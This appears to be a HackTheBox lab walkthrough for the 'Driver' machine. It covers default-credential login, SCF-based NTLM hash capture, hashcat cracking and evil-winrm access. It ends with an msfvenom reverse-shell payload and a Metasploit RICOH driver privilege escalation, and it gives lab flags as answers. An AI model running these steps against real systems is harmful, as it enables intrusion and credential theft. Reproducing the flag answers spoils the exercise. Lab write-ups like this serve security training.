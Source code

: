 
# HackTheBox Walkthrough - Room: Driver

**Target IP**: 10.129.95.238  
**Difficulty**: Medium  
**Objective**: Gain access to the system, escalate privileges, and capture user and root flags.  
![login](img/login.png)

---

## Task 1  
**Question**: What username is disclosed when looking at the HTTP response headers?  
![burpswift](img/burpswift.png)  
**Answer**: `admin`  
> `WWW-Authenticate: Basic realm="MFP Firmware Update Center. Please enter password for admin"`

---

## Task 2  
**Question**: What is the password for this target's login?  
**Answer**: `admin`  
> Weak default credentials used.

---

## Task 3  
**Question**: What is the file extension that can be uploaded here to trigger a connection?  
![webpage](img/webpage.png)  
**Answer**: `scf`  
> Uploading `.scf` triggers Windows to try loading icon file via SMB.  
![scfexploit](img/scfexploit.png)  
![tony](img/tony.png)  

Reference: [SCF Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

---

## Task 4  
**Question**: What is the mode in Hashcat required to crack this hash format?  
![hashid](img/hashid.png)  
![5600](img/5600.png)  
**Answer**: `5600`  
> Net-NTLMv2 → Hashcat Mode 5600  
> Reference: [Hashcat Example Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

---

## Task 5  
**Question**: What is the tony user's password?  
![cracked](img/cracked.png)  
**Answer**: `liltony`  
> Cracked using:
```bash
hashcat -m 5600 -a 0 tony.txt /usr/share/wordlists/rockyou.txt
```

---

## Submit User Flag  
**Answer**: `26b5081e35e8fd5708c582e8eff43525`  
![usertxt](img/usertxt.png)  

> Logged in via:
```bash
evil-winrm -i 10.129.95.238 -u tony -p liltony
```
![evilwinrm](img/evilwinrm.png)

---

## Task 7  
**Question**: What is the filename that stores the command history for PowerShell for tony?  
**Answer**: `ConsoleHost_history.txt`

---

## Task 8  
**Question**: What is the Metasploit module name for exploiting the RICOH driver?  
![history](img/history.png)  
**Answer**: `ricoh_driver_privesc`  
> Seen in PowerShell:
```powershell
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

```bash
msfconsole
search RICOH
```
![search](img/search.png)

---

## Task 9  
**Question**: What command can be used in Metasploit to switch to an interactive logon process?  
**Answer**: `migrate`  
> e.g., `migrate 4636` to explorer.exe

---

## Task 10  
**Question**: Is it possible to elevate to SYSTEM privileges with CVE-2021-1675?  
**Answer**: `yes`  
> PrintNightmare allows privilege escalation.

---

## Submit Admin Flag  
![meterpreter](img/meterpreter.png)  
![administrator](img/administrator.png)  
![rootflag](img/rootflag.png)

**Answer**: `8d7c2cb1f203d204c6c00d0688689481`  

> Process:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.84 LPORT=4444 -f exe > shell.exe
upload shell.exe to C:\Users\tony\music
run handler in Metasploit

./shell.exe
ps → migrate to explorer.exe (PID 4636)
use exploit/windows/local/ricoh_driver_privesc
set session 1, lhost tun0, run
```

---
